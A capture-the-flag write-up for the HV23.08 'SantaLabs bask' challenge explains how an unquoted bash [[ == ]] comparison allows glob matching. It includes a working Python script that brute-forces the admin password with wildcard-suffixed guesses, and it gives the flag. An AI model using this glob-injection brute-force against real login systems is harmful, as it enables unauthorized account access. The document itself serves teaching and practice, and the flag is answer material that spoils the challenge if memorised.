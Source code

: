 ## [HV23.08] SantaLabs bask (coderion)
### Decription
> Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and even template your files by using dynamic scripting!  

> Hint #1: Santa noticed the snow had a very peculiar shape today.  
### Solution
When using [shellcheck](https://www.shellcheck.net/) and scanning the **post_login.sh** the tool reports a globbing vulnerability.
```
Line 14:
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
                         ^-- SC2053 (warning): Quote the right-hand side of == in [[ ]] to prevent glob matching.
```
This means that the password can be bruteforced character by character. You can use 'password*' and the * in the end just matches the rest.  
   
```python
import requests
from string import printable
from time import sleep
import re

url = 'http://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.idocker.vuln.land'

password = 'salami'
while True:
    for p in printable[:71]:
        print(f'trying {password+p}*')
        resp = requests.post(url+'/login', data=f'password={password+p}*').text
        while not ('redirecting' in resp or 'Invalid username or password!' in resp):
            print(f'continuing trying {password+p}*')
            resp = requests.post(url+'/login', data=f'password={password+p}*').text
            sleep(0.25)
        if 'redirecting' in resp:
            password += p
            break
    else:
        break

print('\nFlag: '+re.findall(r'(HV23\{\w.*?\})', requests.get(url+'/admin', cookies={'admin_token':password}).text)[0])
```
Flag: **HV23{gl0bb1ng_1n_b45h_1s_fun}**  